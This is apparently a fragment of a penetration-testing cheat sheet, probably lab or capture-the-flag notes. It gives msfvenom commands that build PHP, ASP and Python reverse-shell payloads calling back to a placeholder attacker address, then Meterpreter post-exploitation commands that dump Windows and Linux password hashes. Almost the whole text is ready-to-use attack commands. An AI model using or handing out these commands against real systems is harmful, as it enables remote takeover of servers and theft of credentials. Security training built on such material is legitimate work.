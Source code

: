 #### PHP

{% code overflow="wrap" %}
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```
{% endcode %}

#### ASP

{% code overflow="wrap" %}
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```
{% endcode %}

#### Python

{% code overflow="wrap" %}
```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```
{% endcode %}

### Post Exploitation

```
##Dump Username und Passwort Hashes

# Windows
run hashdump

# Linux
run /post/linux/gather/hashdump
```
